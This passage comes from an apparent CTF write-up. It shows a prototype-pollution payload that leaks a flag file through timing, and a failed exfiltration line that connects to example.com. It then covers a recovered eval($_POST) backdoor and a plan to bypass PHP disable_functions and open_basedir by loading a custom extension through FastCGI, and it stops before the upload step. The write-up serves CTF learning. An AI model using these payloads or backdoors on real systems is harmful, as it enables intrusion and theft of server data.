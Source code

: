 ```php
content-type: application/json

{"__proto__":{"constructor":""},"expression":"\"${sleep(ord(file_get_contents('/flag')[0])==114)}\"", "isVip":false}
```

Of course you can write [a valid polyglot](https://github.com/zsxsoft/my-ctf-challenges/blob/master/calcalcalc-family/2.md) but I'm too lazy to do that :P

Here is the juicy flag: `flag{114 514 1919 810 is a magic bumber}`.

#### Failed Attempts

- DNS-based leak: `__import__("socket").socket().connect(("example.com",1))`. Unfortunately the backend server seems to block all the outgoing requests.
- Other failed fuzzing attempts:
```
"__proto__":{"__proto__":{"constructor":"a"}} 500
"__proto__":{"__proto__":{"constructor":""}} 200
"__proto__":{"__proto__":{"constructor":null}} 200
"__proto__":{"constructor":"a"} 500
"__proto__":{"constructor":true} 500
"__proto__":{"constructor":false} 200
```

### Wallbreaker (not very) Hard

#### Problem

- This challenge environment is same as 0CTF 2019 qual - Wallbreaker Easy
    - PHP-FPM
    - PHP 7.2
    - strict `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - no `putenv` this time :p
    - `open_basedir: /var/www/html:/tmp`

![](https://i.imgur.com/AJoNARW.png)


- This challenge tells us there is a backdoor in somewhere
- After scanning, I found `.index.php.swp`
    - Recover it and get the backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- OK, it's time for bypass `disable_functions`和`open_basedir`

#### Exploit

- In 0CTF qual, I forged fastcgi protocol to bypass `open_basedir` (overwrite the settings)
- But I found there is another way that is possible to bypass `disable_functions` to RCE
    - using the `extension`!
- So we just need to write the `extension_dir` and `extension` in `PHP_ADMIN_VALUE`, then we can load arbitrary extension
- First step is to upload a RCE extension:
